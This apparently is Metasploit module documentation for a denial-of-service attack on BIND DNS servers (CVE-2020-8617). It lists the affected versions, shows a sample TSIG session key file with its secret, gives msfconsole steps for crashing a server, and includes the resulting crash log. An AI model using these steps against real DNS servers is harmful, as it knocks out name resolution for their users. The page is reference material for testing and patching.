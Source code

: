 ## Vulnerable Application
The following versions of BIND.

- 9.0.0 -> 9.11.18
- 9.12.0 -> 9.12.4-P2
- 9.14.0 -> 9.14.11
- 9.16.0 -> 9.16.2
- 9.17.0 -> 9.17.1 of the 9.17 experimental development branch.
- All releases in the obsolete 9.13 and 9.15 development branches.
- All releases of BIND Supported Preview Edition from 9.9.3-S1 -> 9.11.18-S1.

The attacker must know the name of the real TSIGKey on the target in order to exploit CVE-2020-8617. However, by
default, BIND generates a TSIGKey that name of  "local-ddns" at boot time. As such, the majority of target versions are
vulnerable to this attack.

```
$ sudo cat /var/run/named/session.key
key "local-ddns" {
        algorithm hmac-sha256;
        secret "s/+GOoQRryn/VVndpmFHsgDOBLwndh1zEjVJLK5jo04=";
};

```

## Verification Steps
  1. Start the vulnerable server
  2. Start `msfconsole`
  3. Do: ```use auxiliary/dos/dns/bind_tsig_badtime```
  4. Do: ```run```
  5. The server should crash

## Options

## Scenarios

### Server output from crash

```
26-May-2020 02:45:59.565 general: critical: tsig.c:954: INSIST(msg->verified_sig) failed, back trace
26-May-2020 02:45:59.565 general: critical: #0 0x563435d6aa40 in __do_global_dtors_aux_fini_array_entry()+0x5634357f6888
26-May-2020 02:45:59.565 general: critical: #1 0x563435f49c0a in __do_global_dtors_aux_fini_array_entry()+0x5634359d5a52
26-May-2020 02:45:59.565 general: critical: #2 0x563435ecfcb9 in __do_global_dtors_aux_fini_array_entry()+0x56343595bb01
26-May-2020 02:45:59.565 general: critical: #3 0x563435e14b19 in __do_global_dtors_aux_fini_array_entry()+0x5634358a0961
26-May-2020 02:45:59.565 general: critical: #4 0x563435d5b57f in __do_global_dtors_aux_fini_array_entry()+0x5634357e73c7
26-May-2020 02:45:59.565 general: critical: #5 0x563435d5cffd in __do_global_dtors_aux_fini_array_entry()+0x5634357e8e45
26-May-2020 02:45:59.565 general: critical: #6 0x563435d5d6a8 in __do_global_dtors_aux_fini_array_entry()+0x5634357e94f0
26-May-2020 02:45:59.565 general: critical: #7 0x563435d5f1a7 in __do_global_dtors_aux_fini_array_entry()+0x5634357eafef
26-May-2020 02:45:59.565 general: critical: #8 0x563435f716d9 in __do_global_dtors_aux_fini_array_entry()+0x5634359fd521
26-May-2020 02:45:59.565 general: critical: #9 0x7f6513f576db in __do_global_dtors_aux_fini_array_entry()+0x7f65139e3523
26-May-2020 02:45:59.565 general: critical: #10 0x7f6513c8088f in __do_global_dtors_aux_fini_array_entry()+0x7f651370c6d7
26-May-2020 02:45:59.565 general: critical: exiting (due to assertion failure)
```

